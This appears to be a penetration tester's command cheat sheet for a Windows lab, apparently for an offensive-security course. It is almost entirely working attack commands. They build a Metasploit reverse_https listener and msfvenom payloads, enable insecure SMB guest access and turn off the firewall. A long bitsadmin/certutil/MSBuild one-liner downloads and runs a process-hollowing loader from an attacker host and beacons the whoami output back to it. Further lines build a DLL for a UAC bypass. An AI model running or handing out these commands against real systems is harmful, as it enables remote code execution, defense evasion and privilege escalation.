     //Bloodhound:
        net start neo4j
            http://localhost:7474/browser/
                neo4j / Bloodhound
        Bloodhound.exe
        net stop neo4j

    //RDP Connect:
        xfreerdp +nego +sec-rdp +sec-tls +sec-nla /d: /u: /p: /v:192.168.189.11 /u:user /p:lab /size:2800x1900 /tls-seclevel:0 /scale:180 

    //MSF:
        //Listener:
            use multi/handler; set payload windows/x64/meterpreter/reverse_https
            **set EnableStageEncoding true; set StageEncoder x64/xor_dynamic
            setg lhost tun0; setg lport 443; setg exitfunc thread
            //Extra:
                set HandlerSSLCert cert.pem; set StagerVerifySSLCert true           
        //Shells:
            //Staged: sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=tun0 LPORT=443 -f exe -o /var/www/html/msfstaged.exe
            //Non-staged: sudo msfvenom -p windows/x64/meterpreter_reverse_https LHOST=tun0 LPORT=443 -f exe -o /var/www/html/msfnonstaged.exe

    //Allow Anonymous SMB Access:
        reg add HKLM\SYSTEM\CurrentControlSet\Services\LanmanWorkstation\Parameters /t REG_DWORD /v AllowInsecureGuestAuth /d 1 /f
        (https://learn.microsoft.com/en-US/troubleshoot/windows-server/networking/guest-access-in-smb2-is-disabled-by-default)
        //##If GPO:  reg add HKLM\Software\Policies\Microsoft\Windows\LanmanWorkstation\AllowInsecureGuestAuth /t REG_DWORD /d 1 /f
        //Alternative - SMB Share w/ Creds:
            smbserver.py -smb2support share . -username user -password pass 
            net use \\10.10.14.4\share /u:df df

    //Disable Firewall:
        netsh advfirewall set currentprofile state off

    //Shells:
        //*Hollow.exe:
            \\192.168.49.121\visualstudio\Hollow\Hollow\bin\x64\Release\Hollow.exe
            //**MSBuild File Transfer Bypass Method w/ HTTP Status:
                //Local Prep:
                    //update shellcode in Hollow.csproj...
                    del \\192.168.49.121\visualstudio\file4.txt && certutil -encode \\192.168.49.121\visualstudio\Hollow\Hollow.csproj \\192.168.49.121\visualstudio\file4.txt
                    sudo cp /home/kali/data/file4.txt /var/www/html/ 
                cmd.exe /c del c:\windows\tasks\Hollow.csproj & bitsadmin /Transfer myJob http://192.168.49.121/file4.txt c:\windows\tasks\enc2.txt && certutil -decode c:\windows\tasks\enc2.txt c:\windows\tasks\Hollow.csproj && del c:\windows\tasks\enc2.txt && FOR /F "tokens=* USEBACKQ" %F IN (`whoami`) DO ( bitsadmin /Transfer myJob http://192.168.49.121/%F c:\windows\tasks\enc3.txt ) & FOR /F "tokens=* USEBACKQ" %F IN (`dir /B c:\windows\tasks\Hollow*`) DO ( bitsadmin /Transfer myJob http://192.168.49.121/%F c:\windows\tasks\enc3.txt ) & FOR /F "tokens=* USEBACKQ" %F IN (`dir /B C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe`) DO ( bitsadmin /Transfer myJob http://192.168.49.121/%F c:\windows\tasks\enc3.txt ) & C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe c:\Windows\Tasks\Hollow.csproj && bitsadmin /Transfer myJob http://192.168.49.121/COMPLETE c:\windows\tasks\enc3.txt
        //HollowUAC.exe:
            //Prep:
                //srrstr.c:  WinExec("HollowUAC.exe", 0);
                sudo i686-w64-mingw32-gcc-win32 srrstr.c -lws2_32 -o /var/www/html/srrstr.dll -shared && cp /var/www/html/srrstr.dll /home/kali/data/
                del \\192.168.49.121\visualstudio\file.txt && certutil -encode \\192.168.49.121\visualstudio\srrstr.dll \\192.168.49.121\visualstudio\file.txt
                del \\192.168.49.121\visualstudio\file2.txt && certutil -encode \\192.168.49.121\visualstudio\Hollow\HollowUAC\bin\x64\Release\HollowUAC.exe \\192.168.49.121\visualstudio\file2.txt
                sudo cp /home/kali/data/file.txt /var/www/html/ && sudo cp /home/kali/data/file2.txt /var/www/html/   